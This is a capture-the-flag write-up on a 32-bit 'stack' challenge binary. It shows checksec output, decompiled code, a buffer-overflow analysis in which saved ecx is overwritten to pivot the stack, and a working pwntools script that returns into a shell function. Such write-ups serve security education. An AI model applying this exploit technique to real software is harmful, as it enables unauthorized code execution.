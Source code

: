 # Stack

## Checksec

```sh
❯ checksec stack
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```


## Reverse Analysis

```c
int main(void)

{
  int choice;
  char buf [24];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  buf[0] = '\0';
  buf[1] = '\0';
  buf[2] = '\0';
  buf[3] = '\0';
  buf[4] = '\0';
  buf[5] = '\0';
  buf[6] = '\0';
  buf[7] = '\0';
  buf[8] = '\0';
  buf[9] = '\0';
  buf[10] = '\0';
  buf[11] = '\0';
  buf[12] = '\0';
  buf[13] = '\0';
  buf[14] = '\0';
  buf[15] = '\0';
  buf[16] = '\0';
  buf[17] = '\0';
  buf[18] = '\0';
  buf[19] = '\0';
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  fflush((FILE *)0x0);
  puts("input your name: ");
  read(0,name,0x1e);
  puts("hello: ");
  fflush((FILE *)0x0);
  write(1,name,0x1e);
  fflush((FILE *)0x0);
  do {
    PutsChoice();
    scanf("%d",&choice);
    if (choice == 2) {
      puts("note: ");
      fflush((FILE *)0x0);
      puts(buf);
      fflush((FILE *)0x0);
      exit(0);
    }
    if (choice == 3) {
      say_goodbye();
    }
    else {
      if (choice != 1) {
        exit(0);
      }
      printf("we in addr 0x%x\n",buf);
      record_sentens(buf);
    }
  } while ((choice != 3) && ((choice == 1 || (choice == 2))));
  return 0;
}
```

```c
void record_sentens(char *param_1)

{
  char input [184];
  int i;
  
  puts("Please input your note: ");
  fflush((FILE *)0x0);
  read(0,input,0xb4);
  fflush((FILE *)0x0);
  for (i = 0; input[i] != '\0'; i = i + 1) {
    param_1[i] = input[i];
  }
  return;
}
```

```asm
080486ff 8d 4c 24 04     LEA        ECX=>Stack[0x4],[ESP + 0x4]
08048703 83 e4 f0        AND        ESP,0xfffffff0
08048706 ff 71 fc        PUSH       dword ptr [ECX + local_res0]
08048709 55              PUSH       EBP
0804870a 89 e5           MOV        EBP,ESP
0804870c 51              PUSH       ECX
----------------------------------------------------------------
080488c2 b8 00 00        MOV        EAX,0x0
        00 00
080488c7 8b 4d fc        MOV        ECX,dword ptr [EBP + local_c]
080488ca c9              LEAVE
080488cb 8d 61 fc        LEA        ESP=>local_res0,[ECX + -0x4]
080488ce c3              RET
```

To note that the register `ecx` is introduced by the compiler to perform the `mprefered-stack-boundary` optimization.


## Vulnerability

Function `record_sentens` is vulnerable to a buffer overflow attack.
The `input` buffer is 184 bytes long, while the `buf` buffer in the main function is only 24 bytes long.
This means that if an attacker inputs more than 24 bytes, they can overwrite the `buf` buffer and potentially control the program's execution flow.

## Exploit

So in order to exploit this vulnerability, we need to overwrite the ecx to control the stack pointer, then we can control the return address of the `main` function.

register ecx is next to the buf

```python
#!/usr/bin/python
from pwn import *

context.log_level = "debug"

context.arch = "i386"
r = process("./stack")
# r = remote("124.16.75.117", 51008)

main_buf_len = 0x18
ebx_len = 0x4
local_res0_len = 0x4
ebp_len = 0x4

r.sendlineafter(b"input your name:", b"")
r.sendlineafter(b"choice:>>", b"1")
buf_addr = r.recvuntil(b"\nP")[14:-2]
buf_addr = buf_addr.decode("utf-8")
buf_addr = int(buf_addr, 16)
print(hex(buf_addr))
shelladdr = 0x8048644
exitaddr = 0x804889B
shelladdr_addr = buf_addr
r.sendlineafter(
    b"lease input your note:",
    p32(shelladdr)
    + p32(exitaddr)
    + b"a" * (main_buf_len - 8)
    + p32(shelladdr_addr + 4)  # ecx = esp + 4
    + b"x" * ebp_len,  # ebp
)
# gdb.attach(r, "b *0x80488cb")
r.sendlineafter(b"choice:>>", b"3")
r.interactive()
```
